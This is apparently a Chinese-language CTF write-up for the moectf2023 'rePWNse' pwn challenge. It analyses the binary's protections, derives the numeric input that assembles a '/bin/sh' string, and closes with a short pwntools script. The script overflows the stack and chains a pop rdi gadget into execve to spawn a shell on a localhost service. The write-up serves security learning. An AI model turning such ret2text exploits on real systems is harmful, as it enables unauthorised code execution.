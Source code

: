 ```yaml
---
title: moectf2023 - rePWNse
date: 2023/9/25 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析`rePWNse`程序，利用`makebinsh`函数构造输入并结合`pop rdi; ret;`与`execve()`实现了ret2text漏洞利用。
---
```


## 文件分析

下载`rePWNse`, NX on, PIE off, Canary off, RELRO full
ghidra分析为64位程序

## 解题思路

`makebinsh`函数中有一个字母表和待输入的7位数字，易知else子句都是随机字母，难以组成目标；
而if子句和判断语句之外的cat语句可以组成目标，故得到2个等式和5个方程，整理得输入后的数组：

|idx|0|1|2|3|4|5|6|
|---|-|-|-|-|-|-|-|
|val|1|9|1|9|8|1|0|

~~这么臭的题还是不要罢~~

又发现存在`pop rdi; ret;` & `execve()`，回到了简单的ret2text

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 41053)
sh.sendline(b'1 9 1 9 8 1 0')
sh.recvuntil(b'is:') # skip
shstrAddr = int(sh.recvline()[2:9], 16)
popRdiAddr = 0x0040168e
execveAddr = 0x00401296
sh.sendline(b'0'*0x48 + p64(popRdiAddr) + p64(shstrAddr) + p64(execveAddr))
sh.interactive()
```

Done.
